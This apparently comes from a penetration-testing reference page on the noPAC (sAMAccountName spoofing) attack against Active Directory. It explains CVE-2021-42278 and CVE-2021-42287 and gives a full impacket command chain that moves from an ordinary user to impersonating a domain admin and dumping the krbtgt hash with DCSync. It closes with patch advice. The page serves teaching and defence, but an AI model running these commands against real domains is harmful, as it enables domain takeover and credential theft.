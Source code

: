 ```yaml
---
title: "sAMAccountName Spoofing/noPAC"
---
```


## Introduction

By combining CVE-2021-42278 and CVE-2021-42287 it is possible, under default conditions, for a regular user to easily impersonate a domain admin. This means that any domain user can effectively become a domain administrator, which makes these vulnerabilities extremely severe.

- CVE-2021-42278 - Invalid Computer Account Name
Computer account names in Active Directory end with "$", but is not correctly enforced. The computer account name attribute is "sAMAccountName" and it is possible to see and edit the this attribute manually.

- CVE-2021-42287 - Kerberos Key Distribution Center Confusion
When a request for a service ticket is sent and it is not found, the KDC will automatically lookup the requested ticket appended with "$".

## Exploitation Steps

To exploit this issue, an attacker needs the ability to control a computer account. As mentioned, the attacker needs to be able to modify both the "servicePrincipalName" attribute and "sAMAccountName" attribute. The simplest way to achieve this is to create one by the MachineAccountQuota attribute which is the default configuration for any unprivileged user to create up to 10 computer accounts.

1. Enumerate a domain controller.
2. Create a new computer account without any SPN.
3. Leverage CVE-2021-42278 to modify the "sAMAccountName" to the domain controller account name.
4. Get a TGT of the controlled computer account.
5. Restore the computer account name so it will not be found when the KDC looks for it.
6. Leverage CVE-2021-42287 using the obtained TGT to request a service ticket with S4U2Self.

There are many tools we can use.
```
https://github.com/ly4k/Pachine
```
Or impacket with ShutdownRepo's custom scripts.

[GetST.py](https://github.com/SecureAuthCorp/impacket/pull/1202) and [renameMachine.py](https://github.com/SecureAuthCorp/impacket/pull/1224)


```
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

# 1. clear its SPNs
addspn.py --clear -t 'ControlledComputer$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

# 2. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

# 3. obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

# 4. reset the computer name
renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -altservice 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

# 6. DCSync by presenting the service ticket
KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
```

More [resource](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing)

## Migration

Update all the domain controllers and apply Microsoft patches [KB5008380](https://support.microsoft.com/en-us/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041) and [KB5008602](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008602-os-build-17763-2305-out-of-band-8583a8a3-ebed-4829-b285-356fb5aaacd7) as soon as possible to mitigate the issue.